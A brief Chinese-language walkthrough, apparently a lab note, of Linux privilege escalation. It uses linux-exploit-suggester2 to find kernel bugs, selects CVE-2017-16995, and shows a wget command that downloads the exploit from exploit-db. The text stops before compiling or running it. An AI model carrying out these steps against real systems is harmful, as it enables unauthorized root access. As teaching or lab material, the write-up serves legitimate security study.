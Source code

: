 提权过程：连接-->获取可利用漏洞-->下载并上传exp-->编译exp-->给权限执行-->成功。

连接上去之后，id查看hack用户的uid为1001，属于普通用户。

![查看id](./Linux提权本地配合内核漏洞/查看id.png)

上传漏洞探针linux-exploit-suggester2并执行，发现了3个可能被利用的漏洞。

![执行脚本](./Linux提权本地配合内核漏洞/执行脚本.png)

尝试利用漏洞CVE-2017-16995。

上传exp。

```bash
wget  http://www.exploit-db.com/exploits/45010
```
